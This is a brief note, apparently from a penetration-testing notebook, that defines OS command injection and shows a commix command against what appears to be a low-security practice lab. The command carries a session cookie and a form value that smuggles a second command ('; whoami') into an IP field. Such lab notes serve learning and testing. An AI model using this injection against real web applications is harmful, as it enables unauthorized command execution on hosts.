

Command injection also is known as OS Command injection,
is an attack technique used to execute commands on a host operating system via a vulnerable web application
kali tool
commix – Automated All-in-One OS Command Injection and Exploitation Tool
commix --cookie='security=low; PHPSESSID=a88d55eca4290223b8766e9328bbf5ff' --data='ip=8.8.8.8+%3B+whoami&submit=submit'

